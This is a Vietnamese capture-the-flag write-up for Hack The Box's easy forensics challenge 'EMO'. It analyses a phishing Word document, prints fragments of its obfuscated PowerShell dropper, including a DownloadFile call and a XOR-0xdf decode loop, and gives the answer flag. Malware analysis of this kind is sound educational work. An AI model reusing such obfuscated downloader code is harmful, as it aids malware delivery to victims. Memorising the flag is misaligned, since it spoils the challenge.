



# EMO – Hack The Box (Forensics)

**Độ khó:** Easy  
**Thể loại:** Forensics

---

## 1 Giới thiệu Challenge

- Một file Word khả nghi được tìm thấy
- Nhiệm vụ là phân tích file để tìm flag bị ẩn

---

## 2 Mục tiêu

- Phân tích file Word
- Trích xuất và giải mã dữ liệu để tìm flag

---

## 3 Phương pháp giải

### Bước 1: Phân tích file Word

- Mở file Word ban đầu



- Upload file lên **any.run** để phân tích hành vi



- Quan sát và chú ý tới đoạn mã PowerShell khả nghi



- Sao chép đoạn mã và chạy trong PowerShell


---

### Bước 2: Phân tích dữ liệu và tìm flag

- Phát hiện biến `$FN5ggmsH` được dùng để ghép các dãy số

```powershell
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)
```

- Ngoài ra còn có đoạn PowerShell quan trọng:

```powershell
{try{
$Odb3hf3."dO`WnLOA`dfILe"($A8i3ke1, $Scusbkj);
$Zhcnaux=(('Ek'+'k')+('j'+'47t'));
If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -ge 45199) {
${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() |
.("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process {
${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf )
}}}
```

- Chú ý phép toán:

```text
byte/char XOR 0xdf
```

-> Điều này cho thấy dữ liệu được **XOR với key 0xdf**

---

### Bước 3: Giải mã bằng CyberChef

- Truy cập **CyberChef**:  
  `https://gchq.github.io/CyberChef/`
- Nhập dãy số vào
- Chọn operation **XOR**
- Key: `0xdf`


-> Thu được flag:

```text
HTB{4n0th3R_d4Y_AnoThEr_pH1Sh}
```


---

## 4 Flag

```text
HTB{4n0th3R_d4Y_AnoThEr_pH1Sh}
```

---

## 5 Kết luận & Bài học rút ra

- File Word có thể chứa mã độc thông qua macro hoặc PowerShell nhúng
- Phân tích hành vi bằng **any.run** giúp nhanh chóng phát hiện logic độc hại
- Nhận diện kỹ thuật **XOR encoding** là chìa khóa để giải mã dữ liệu ẩn
- PowerShell thường được sử dụng để làm rối và che giấu payload trong các chiến dịch phishing
